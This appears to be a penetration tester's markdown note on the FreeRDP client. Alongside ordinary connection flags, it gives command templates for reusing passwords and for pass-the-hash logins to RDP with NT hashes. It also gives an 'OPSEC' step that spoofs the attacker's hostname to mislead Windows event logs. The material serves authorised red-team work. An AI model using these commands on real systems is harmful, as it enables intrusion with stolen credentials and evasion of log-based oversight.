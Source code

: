 # FreeRDP

## 01 - Authenticate RDP

Choose keyboard layout that is familiar to you and then specify the `/kbd:0x<layout_id>` or `/kbd:US` flag.

```
$ xfreerdp /kbd-list
```

Fullscreen (the shortcut is `CTRL + ALT + Enter`) to toggle it.

```
$ xfreerdp /f
```

Drag resolution screen

```
$ xfreerdp /dynamic-resolution
```

Force specific protocol security. Older operating systems specify `/sec:rdp` and for modern operating system specify `/sec:tls` or `/sec:nla`.

```
$ xfreerdp /sec:<rdp | tls | nla>
```

Ignore certification

```
$ xfreerdp /cert:ignore
```

Reuse passwords

```
$ xfreerdp /kbd:US /clipboard /compression /dynamic-resolution /sec:<rdp | tls | nla> /u:"<username>" /d:"<domain>" /p:"<password>" /v:<IP> [/port:<PORT>]

$ xfreerdp /kbd:US /clipboard /compression /dynamic-resolution /sec:<rdp | tls | nla> /u:"[<domain>\]<username>" /p:"<password>" /v:<IP>:[<PORT>]
```

Pass the Hash

```
$ xfreerdp /kbd:US /clipboard /compression /dynamic-resolution /sec:<rdp | tls | nla> /u:"<username>" /d:"<domain>" /pth:<nt_hash> /v:<IP> [/port:<PORT>]

$ xfreerdp /kbd:US /clipboard /compression /dynamic-resolution /sec:<rdp | tls | nla> /u:"[<domain>\]<username>" /pth:<nt_hash> /v:<IP>:[<PORT>]
```

## 02 - OPSEC Consideration

Change your Linux hostname (requires reboot) to the same target workstation to spoof the event logs.

```
$ sudo hostnamectl hostname "<windows_workstation_name_to_spoof>"
```

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x00 - Exploitation/0xD - Password Cracking/Online/Network Protocols/Remote Services/Graphical Remote Program/RDP|Vulnerability Assessment: RDP]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x00 - Exploitation/0xE - Remote Services Exploitation/Network Ports/Graphical Remote Program/RemoteKeyStrokes|Initial Access: RemoteKeyStrokes]]

- [awakecoding: FreeRDP User Manual](https://github.com/awakecoding/FreeRDP-Manuals/blob/master/User/FreeRDP-User-Manual.markdown)

- [Infinite Logins: Pass the Hash Attack with RDP](https://infinitelogins.com/2021/02/20/pass-the-hash-attack-with-rdp/)

- [Hacktricks: Pentesting RDP](https://book.hacktricks.xyz/pentesting/pentesting-rdp)

- [Make FreeRDP Prompt User for Username and Password](https://unix.stackexchange.com/questions/119880/make-freerdp-prompt-user-for-username-and-password)